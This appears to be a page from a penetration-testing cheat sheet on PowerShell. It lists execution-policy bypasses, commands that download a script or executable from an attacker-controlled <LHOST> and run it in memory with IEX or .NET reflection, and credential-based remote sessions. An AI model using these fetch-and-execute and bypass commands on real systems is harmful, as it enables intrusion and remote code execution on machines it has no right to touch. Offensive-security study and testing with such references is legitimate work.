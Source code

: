 #### Check Execution Policy

```cmd
PS C:\> Get-ExecutionPolicy
```

##### Allow Script Execution

```cmd
PS C:\> Set-ExecutionPolicy remotesigned
PS C:\> Set-ExecutionPolicy unrestricted
PS C:\> Set-ExecutionPolicy -Scope CurrentUser RemoteSigned
```

##### Script Execution Bypass

```cmd
PS C:\> powershell -ex bypass -File <FILE>.ps1
PS C:\> powershell -noprofile -executionpolicy bypass -file .\<FILE>.ps1
```

### Invoke-Expression / Invoke-WebRequest

```cmd
PS C:\> iwr <LHOST>/<FILE>.ps1 -o <FILE>.ps1
PS C:\> iwr http://<LHOST>/<FILE>.ps1 -o <FILE>.ps1
PS C:\> IEX(IWR http://<LHOST>/<FILE>.ps1)
PS C:\> Invoke-Expression (Invoke-WebRequest http://<LHOST/<FILE>.ps1)
```

#### Use Kerberos Tickets

```cmd
PS C:\> iwr -UseDefaultCredentials http://<RHOST>
```

### .NET Reflection

```cmd
PS C:\> $bytes = (Invoke-WebRequest "http://<LHOST>/<FILE>.exe" -UseBasicParsing ).Content
PS C:\> $assembly = [System.Reflection.Assembly]::Load($bytes)
PS C:\> $entryPointMethod = $assembly.GetTypes().Where({ $_.Name -eq 'Program' }, 'First').GetMethod('Main', [Reflection.BindingFlags] 'Static, Public, NonPublic')
PS C:\> $entryPointMethod.Invoke($null, (, [string[]] ('find', '/<COMMAND>')))
```

### PSCredential

```console
Import-CliXml
Export-CliXml
```

### Switching Sessions in PowerShell

```cmd
PS C:\> $password = ConvertTo-SecureString "<PASSWORD>" -AsPlainText -Force
PS C:\> $cred = New-Object System.Management.Automation.PSCredential("<USERNAME>", $password)
PS C:\> Enter-PSSession -ComputerName <RHOST> -Credential $cred
```


[localhost]: PS C:\Users\<USERNAME>\Documents> whoami